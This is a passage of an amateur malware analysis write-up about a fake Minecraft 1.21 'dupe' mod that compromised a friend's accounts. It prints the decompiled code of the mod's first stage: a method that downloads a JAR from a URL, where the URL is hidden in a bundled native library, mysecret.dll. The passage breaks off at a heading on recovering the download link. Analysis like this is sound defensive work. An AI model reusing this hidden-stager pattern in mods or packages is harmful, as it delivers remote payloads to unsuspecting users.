 # Malware Analysis
## Background

i got this Malware from a friend who got hacked by it. 
The malware is disguised as a Minecraft Fabric mod to dupe items in the version 1.21.
after a day or so our base was gone and he had new "friends" on discord.
After noticing i asked him to send me the "Mod".

## Stage 1: The Minecraft Mod

After extracting the mod
`$ unzip Malware.jar`

and looking whats there i found a suspicios dll called mysecret.dll.  
After looking into it further i also found that in [NewMod.class (Dumped)](./../assets/malware-analysis/stage1/unpacked/dev/majanito/NewMod.java)  
are some things i do **NOT** like

number one:
```
    private byte[] downloadJar(String urlString) throws Exception {
        URL url = new URL(urlString);
        HttpURLConnection conn = (HttpURLConnection)url.openConnection();
        conn.setRequestMethod("GET");
        try (InputStream in = conn.getInputStream();){
            byte[] byArray;
            try (ByteArrayOutputStream out = new ByteArrayOutputStream();){
                int n;
                byte[] buffer = new byte[8192];
                while ((n = in.read(buffer)) != -1) {
                    out.write(buffer, 0, n);
                }
                byArray = out.toByteArray();
            }
            return byArray;
        }
    }
```

which is called btw
`byte[] jarBytes = this.downloadJar(Secret.VALUE);`

---

and number two:
```
$ cfr Secret.class 
/*
 * Decompiled with CFR 0.152.
 */
package dev.majanito;

import dev.majanito.NativeUtils;

public class Secret {
    public static final String VALUE;

    private static native String loadSecret();

    static {
        String libPath = "/native/" + System.mapLibraryName("mysecret");
        NativeUtils.loadLibraryFromJar(libPath);
        VALUE = Secret.loadSecret();
    }
}
```
---
This brought me to the conclusion that the Mod Loads a .dll, mysecret.dll to be exact,  
and Dowloads something from a link it returns.

### Stage 1.2, getting the download link
